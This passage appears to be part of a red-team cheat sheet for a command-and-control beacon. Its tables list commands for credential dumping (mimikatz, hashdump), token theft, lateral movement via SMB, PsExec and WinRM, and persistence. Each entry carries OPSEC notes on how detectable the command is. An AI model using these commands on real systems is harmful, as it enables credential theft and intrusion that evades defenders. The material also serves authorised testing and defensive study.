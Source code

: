 
##  **2. Credential Access**

| Command         | Syntax                           | Notes                                   | OPSEC Notes                            |
|----------------|----------------------------------|-----------------------------------------|----------------------------------------|
| `mimikatz`      | `mimikatz logonpasswords`        | Invoke Mimikatz directly in memory       | Highly detectable (EDR/AV signatures)  |
| `hashdump`      | `hashdump`                       | Dump local SAM hashes                    | Noisy, can be logged                   |
| `creds`         | `creds`                          | Show harvested credentials               | Internal only                          |
| `kerberos_ticket_purge` | `kerberos_ticket_purge`       | Purge Kerberos tickets from memory       | Safe                                   |

---

##  **3. Privilege Escalation**

| Command         | Syntax                         | Notes                                         | OPSEC Notes                            |
|----------------|--------------------------------|-----------------------------------------------|----------------------------------------|
| `getsystem`     | `getsystem`                   | Token impersonation + service abuse           | May create service artifacts           |
| `rev2self`      | `rev2self`                    | Revert token impersonation                    | Safe                                   |
| `steal_token`   | `steal_token [pid]`           | Steal access token from another process       | Requires target PID                    |
| `make_token`    | `make_token user pass`        | Use plaintext creds to impersonate a user     | May fail silently if creds invalid     |

---

##  **4. Lateral Movement**

| Command           | Syntax                                  | Notes                                           | OPSEC Notes                            |
|------------------|-----------------------------------------|-------------------------------------------------|----------------------------------------|
| `jump`            | `jump smb [host] [listener]`            | SMB beacon lateral move                         | Spawns new beacon over SMB             |
| `psexec`          | `psexec [target] [listener]`            | Uses Admin shares to run a payload              | Creates services/logs                  |
| `winrm`           | `jump winrm [target] [listener]`        | Move via WinRM (if enabled)                     | Less noisy than SMB/PSExec             |
| `psinject`        | `psinject [pid] [payload]`              | Inject payload into another process            | Dangerous if EDR hooks injection       |

---

##  **5. Persistence**

| Command         | Syntax                                 | Notes                                   | OPSEC Notes                      |
|----------------|----------------------------------------|-----------------------------------------|----------------------------------|
| `schtasks`      | `schtasks /create ...`                 | Schedule tasks for beacon persistence   | Very detectable via logs         |
| `reg`           | `reg add ...`                          | Registry persistence options             | Monitored paths are high risk    |
| `backdoor`      | `backdoor_add [type]`                  | Persist via userinit, shell, etc.        | Artifact-heavy, use with caution |

---